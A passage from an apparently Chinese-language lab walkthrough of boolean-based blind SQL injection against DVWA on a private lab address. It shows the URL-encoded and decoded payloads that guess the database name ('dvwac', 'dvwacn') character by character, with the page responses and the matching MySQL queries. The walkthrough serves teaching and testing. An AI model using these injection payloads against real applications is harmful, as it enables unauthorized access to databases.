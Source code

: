

##测试数据库名称第5个字符


http://192.168.56.80/dvwacn/vulnerabilities/sqli_blind/?id=1%27%20and%20left(database(),5)=%27dvwac%27%20and%20%271%27=%271&Submit=%C8%B7%B6%A8

```
ID: 1' and left(database(),5)='dvwac' and '1'='1
First name: admin
Surname: admin
```

url解码后

```
http://192.168.56.80/dvwacn/vulnerabilities/sqli_blind/?id=1' and left(database(),5)='dvwac' and '1'='1&Submit=确定
```


mysql中查询结果

```
mysql> SELECT first_name, last_name FROM users WHERE user_id = '1' and left(database(),5)='dvwac' and '1'='1';
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

mysql>

```



##测试数据库名称第6个字符


http://192.168.56.80/dvwacn/vulnerabilities/sqli_blind/?id=1%27%20and%20left(database(),6)=%27dvwacn%27%20and%20%271%27=%271&Submit=%C8%B7%B6%A8

```
ID: 1' and left(database(),6)='dvwacn' and '1'='1
First name: admin
Surname: admin
```

url解码后

```
http://192.168.56.80/dvwacn/vulnerabilities/sqli_blind/?id=1' and left(database(),6)='dvwacn' and '1'='1&Submit=确定
```


mysql中查询结果

```
mysql> SELECT first_name, last_name FROM users WHERE user_id = '1' and left(database(),6)='dvwacn' and '1'='1';
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

mysql>

```
